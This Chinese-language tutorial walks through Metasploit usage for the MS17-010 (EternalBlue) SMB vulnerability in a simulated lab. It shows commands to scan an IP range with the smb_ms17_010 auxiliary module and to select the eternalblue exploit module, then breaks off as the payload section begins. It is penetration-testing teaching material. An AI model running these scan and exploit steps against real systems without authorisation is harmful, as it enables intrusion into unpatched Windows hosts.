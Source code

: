 ### MS17_010 (永恒之蓝)

> 我们现在模拟使用 MS17_010 漏洞攻击
> 这个漏洞就是去年危害全球的勒索病毒利用的永恒之蓝漏洞

#### 查找漏洞相关模块

1. 在 kali 命令行里面输入命令 msfconsole，进入 msf 框架中
~~~bash
msfconsole  #输入命令进入msf渗透框架中
~~~

2. 搜索 MS17_010 漏洞
~~~bash
search ms17_010  #利用search命令，搜索漏洞相关利用模块
~~~

#### 利用 `Auxiliary辅助探测模块` 对漏洞进行探测

**Auxiliary辅助探测模块**
> 该模块不会直接在攻击机和靶机之间建立访问，它们只负责执行扫描，嗅探，指纹识别等相关功能以辅助渗透测试

1. 使用 smb_ms17_010 漏洞探测模块对 smb_ms17_010 漏洞进行探测
~~~bash
use auxiliary/scanner/smb/smb_ms17_010
~~~

2. 查看这个模块需要配置的信息
~~~bash
show options  #查看这个模块需要配置的信息
~~~

3. 设置要探测的远程目标
~~~bash
set rhosts 192.168.100.100-192.168.100.190
~~~

4. 对上面设置的 ip 范围内的主机进行攻击
~~~bash
exploit
~~~

#### 使用 `Exploit漏洞利用模块` 对漏洞进行利用

1. 选择漏洞攻击模块，对漏洞进行利用
~~~bash
use exploit/windows/smb/ms17_010_eternalblue
~~~

2. 查看这个漏洞的信息
~~~bash
info
~~~

3. 查看可攻击的系统平台，显示当前攻击模块针对哪些特定操作系统版本、语言版本的系统
~~~bash
show targets  
~~~

#### Payload 攻击载荷模块
> 攻击载荷是我们期望在目标系统在被渗透攻击之后完成的实际攻击功能的代码
> 成功渗透目标后，用于在目标系统上运行任意命令
